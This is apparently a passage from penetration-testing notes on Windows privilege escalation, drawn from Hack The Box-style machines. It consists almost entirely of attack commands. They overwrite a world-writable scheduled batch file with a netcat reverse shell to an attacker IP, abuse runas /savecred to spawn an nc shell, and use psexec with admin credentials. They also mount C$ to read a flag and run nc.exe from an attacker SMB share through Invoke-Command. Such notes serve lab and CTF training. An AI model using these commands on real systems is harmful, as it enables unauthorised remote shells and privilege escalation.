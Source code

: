 ```
cacls "C:\SVCcheck\SVCcheck.bat"
```

![](broken-reference)

Everyone has the full rights.

Now spawn your reverse shell to SVCcheck.bat by echo

```
echo "C:\Documents and Settings\albert\nc.exe" -nv 192.168.39.31 80 -e C:\WINDOWS\System32\cmd.exe > "C:\SVCcheck\SVCcheck.bat"
```

Then just simply wait for 5 mins you'll get the reverse shell.

### runas  <a href="#runas-and-privilege-escalation" id="runas-and-privilege-escalation"></a>

You can check if administrator needs no password by&#x20;

```
net user administrator
```

![](broken-reference)

Then you can simply make ncat reverse shell by runas&#x20;

```
runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"
```

```
nc -lnvp 1337
```

If you already got the administrator password, you can simply try psexec by running cmd as Administrator and get a shell.

```
runas /netonly /user:QUERIER\Administrator cmd.exe
psexec \\querier.htb cmd
```

#### Mounting C$ Manullay in case you can't access root.txt even with an adminstrator account.

```
net use Z: \\ARKHAM\C$
Z:
type root.txt
```

Powershell run as different user and get the reverse shell

```
Invoke-Command -ScriptBlock {\\10.10.14.38\share\nc.exe -e cmd.exe 10.10.14.38 4444} -Credential WORKGROUP\administrator -computer localhost
```
